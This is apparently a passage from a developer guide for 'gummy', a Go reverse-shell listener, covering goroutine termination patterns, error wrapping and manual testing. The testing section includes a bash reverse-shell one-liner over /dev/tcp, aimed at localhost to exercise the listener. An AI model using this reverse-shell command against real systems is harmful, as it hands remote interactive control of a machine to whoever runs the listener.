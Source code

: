 ### Creating New Goroutines
```go
// Always think about:
// 1. How will it terminate?
// 2. How do I signal it to stop?
// 3. Does it need channels for communication?
// 4. Does it access shared state? (needs mutex)

go func() {
    defer log.Println("Goroutine exiting")
    
    for {
        select {
        case <-stopChan:
            return
        case data := <-dataChan:
            // Process
        }
    }
}()
```

### Error Handling
```go
// Wrap errors with context
if err != nil {
    return fmt.Errorf("failed to do X: %w", err)
}

// Log and continue for non-critical errors
if err != nil {
    log.Printf("Warning: %v", err)
    // continue...
}
```

## Testing Strategy

### Manual Testing
```fish
# Start gummy
go run ./cmd/gummy -p 4444

# Connect with netcat
nc localhost 4444

# Later: test with actual reverse shell
bash -i >& /dev/tcp/localhost/4444 0>&1
```

### Future: Unit Tests
- Test session management logic
- Test command parsing
- Mock network connections
